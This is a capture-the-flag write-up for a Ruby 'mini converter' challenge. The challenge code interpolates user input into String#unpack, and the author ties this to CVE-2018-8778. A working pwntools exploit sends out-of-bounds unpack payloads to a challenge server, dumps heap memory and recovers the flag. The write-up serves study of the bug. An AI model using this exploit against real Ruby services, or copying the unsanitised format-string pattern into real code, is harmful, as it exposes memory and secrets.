 mini converter
==================

We are given the following Ruby code:
```ruby
flag = "FLAG{******************************}"
# Can you read this? really???? lol

while true

    puts "[CONVERTER IN RUBY]"
    STDOUT.flush
    sleep(0.5)
    puts "Type something to convert\n\n"
    STDOUT.flush
    puts "[*] readme!"
    STDOUT.flush
    puts "When you want to type hex, contain '0x' at the first. e.g 0x41414a"
    STDOUT.flush
    puts "When you want to type string, just type string. e.g hello world"
    STDOUT.flush
    puts "When you want to type int, just type integer. e.g 102939"
    STDOUT.flush

    puts "type exit if you want to exit"
    STDOUT.flush

    input = gets.chomp
    puts input
    STDOUT.flush

    if input  == "exit"
        file_write()
        exit

    end

    puts "What do you want to convert?"
    STDOUT.flush

    if input[0,2] == "0x"
        puts "hex"
        STDOUT.flush
        puts "1. integer"
        STDOUT.flush
        puts "2. string"
        STDOUT.flush

        flag = 1
    
    elsif input =~/\D/
        puts "string"
        STDOUT.flush
        puts "1. integer"
        STDOUT.flush
        puts "2. hex"
        STDOUT.flush

        flag = 2
    
    else
        puts "int"
        STDOUT.flush
        puts "1. string"
        STDOUT.flush
        puts "2. hex"
        STDOUT.flush

        flag = 3
    end

    num = gets.to_i

    if flag == 1
        if num == 1
            puts "hex to integer"
            STDOUT.flush
            puts Integer(input)
            STDOUT.flush

        elsif num == 2
            puts "hex to string"
            STDOUT.flush
            tmp = []
            tmp << input[2..-1]
            puts tmp.pack("H*")
            STDOUT.flush
        
        else
            puts "invalid"
            STDOUT.flush
        end

    elsif flag == 2
        if num == 1
            puts "string to integer"
            STDOUT.flush
            puts input.unpack("C*#{input}.length")
            STDOUT.flush
    
        elsif num == 2
            puts "string to hex"
            STDOUT.flush
            puts input.unpack("H*#{input}.length")[0]
            STDOUT.flush
    
        else
            puts "invalid2"
            STDOUT.flush
        end

    elsif flag == 3
        if num == 1
            puts "int to string"
            STDOUT.flush
    
        elsif num == 2
            puts "int to hex"
            STDOUT.flush
            puts input.to_i.to_s(16)
            STDOUT.flush
        else
            puts "invalid3"
            STDOUT.flush
        end

    else
        puts "invalid4"
        STDOUT.flush

    end

end

```

Variable `flag`, which holds the flag string, is overwritten with either 1, 2 or 3 as our input type. Our job is to somehow recover that data.

The two conversion cases `"string to integer"` and `"string to hex"` immediately caught my attention since it looked *so offending*. Variable `input` which is completely controlled by our input is interpolated into [format string of String#unpack](https://www.rubydoc.info/stdlib/core/String:unpack) without any validation whatsoever.

The intended code is probably something like:
```ruby
input.unpack("C*#{input.length}")
```
instead of the given
```ruby
input.unpack("C*#{input}.length")
```

### **Format-string bug?**

After minutes of googling, I found a FSB-style vulnerability + integer overflow in `String#unpack` of Ruby version < 2.5.1 known as [CVE-2018-8778](https://nvd.nist.gov/vuln/detail/CVE-2018-8778). A good article explaining the vulnerability is located [here](https://blog.sqreen.io/buffer-under-read-ruby/).

The vulnerability can be used to acquire arbitrary read, as we can specify any offset and data length to read. By leaking heap memory of lower address, we are able to read the original flag.

Since `"string to integer"` case allows us to print a whole array instead of `"string to hex"` case which prints only the first element, the former is used. Below is the exploit code.

```python
from pwn import *

#context.log_level = 'debug'

p = remote('110.10.147.105', 12137)

p.recvuntil('to exit\n')

targlen = 0x10000
for i in range(1, 100):
    payload = 'a @{}a{} '.format(2**64 - targlen*i, targlen + 0x100)
    p.sendline(payload)
    p.recvuntil('hex\n')
    p.sendline('1')
    print('memdump #{}'.format(i))
    data = p.recvuntil('to exit\n')
    if 'FLAG{' in data:
        st = data.find('FLAG{')
        print(data[st:data.find('}', st)+1])
        break
```

The exploit code dumps `0x10100` continuous bytes at offset `-0x10000*i` in each loop. When the flag string prefix `'FLAG{'` is found, we print out until the matching end `'}'`.

**FLAG: `Run away with me.It'll be the way you want it`**